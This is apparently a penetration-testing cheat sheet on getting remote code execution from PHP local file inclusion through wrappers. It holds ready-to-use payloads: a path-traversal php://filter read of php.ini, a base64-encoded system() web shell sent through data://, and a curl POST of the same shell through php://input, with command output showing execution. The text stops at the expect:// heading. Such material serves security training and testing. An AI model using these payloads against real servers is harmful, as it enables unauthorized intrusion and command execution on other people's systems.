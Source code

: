 # PHP Wrappers for RCE

PHP wrappers can be abused to achieve Remote Code Execution (RCE) via LFI when the vulnerable function supports file execution, and settings like `allow_url_include` are enabled.
### Checking `allow_url_include`
###### Use LFI + base64 filter to read the PHP config:

```
php://filter/read=convert.base64-encode/resource=../../../../etc/php/7.4/apache2/php.ini
```
###### Decode and grep:

```bash
echo '<base64>' | base64 -d | grep allow_url_include
```

Must be `On` for the following wrappers to work.

```bash
echo 'W1BIUF0KCjs7Ozs7Ozs7O...SNIP...4KO2ZmaS5wcmVsb2FkPQo=' | base64 -d | grep allow_url_include

allow_url_include = On
```
### 1. `data://` Wrapper

Encodes PHP code in base64 and passes it via URL.

```bash
echo '<?php system($_GET["cmd"]); ?>' | base64
```

Then:

```
http://<SERVER_IP>:<PORT>/index.php?language=data://text/plain;base64,<encoded>&cmd=id
```

Output:

```
uid=33(www-data)
```
### 2. `php://input` Wrapper

Send PHP shell via POST. Command is still passed via GET.

```bash
curl -X POST --data '<?php system($_GET["cmd"]); ?>' \
"http://<SERVER_IP>:<PORT>/index.php?language=php://input&cmd=id"
```

Note:

- If only POST is accepted: hardcode command inside payload.
- Wrapper depends on `allow_url_include = On`
### 3. `expect://` Wrapper
